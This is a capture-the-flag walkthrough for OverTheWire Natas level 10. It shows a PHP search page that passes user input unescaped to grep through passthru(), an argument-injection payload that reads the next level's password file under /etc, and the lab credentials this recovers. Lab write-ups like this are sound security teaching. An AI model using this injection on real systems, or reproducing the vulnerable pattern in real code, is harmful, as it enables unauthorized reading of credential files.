 # Natas Level 10
The ***URL*** to which you need to connect is *http://natas10.natas.labs.overthewire.org*. The ***username*** is *natas10* and the ***password*** is *nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu*. 

Lets check the [viewsource](http://natas9.natas.labs.overthewire.org/index-source.html) link.
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

By analysing the php script we see that there's certain characters like ;, | and &. Therefore, we can exploit the features in grep command like you can search in 2 files.

```
[A-Z] /etc/natas_webpass/natas11
```

```
Password : U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```
